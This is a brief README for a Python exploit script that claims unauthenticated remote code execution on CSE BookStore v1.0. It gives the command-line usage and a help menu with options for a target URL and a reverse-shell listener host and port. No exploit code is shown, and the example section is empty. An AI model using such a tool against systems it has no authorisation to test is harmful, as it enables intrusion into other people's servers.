

# CSE Book Store Unauthenticated RCE
Automatic python3 script to exploit CSE BookStore v1.0

<hr>

#### 1. Basic Usage:
```txt
$ python3 cse_bookstore.py -u <url> -l <pentesterIP> -p <pentesterPort>
```
#### 2. Help Menu:
```txt
[13:37:13] Jae-Nguyen:~/Documents/pg/dawn/custom_expl$ python3 cse_bookstore.py --help
usage: cse_bookstore.py [-h] [-u URL] [-l LHOST] [-p LPORT]

----- CSE Bookstore Unauthenticated RCE -----

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     URL to CSE Bookstore.
  -l LHOST, --lhost LHOST
                        Local host for a reverse shell.
  -p LPORT, --lport LPORT
                        Local port for a reverse shell.
```
#### 3. Example


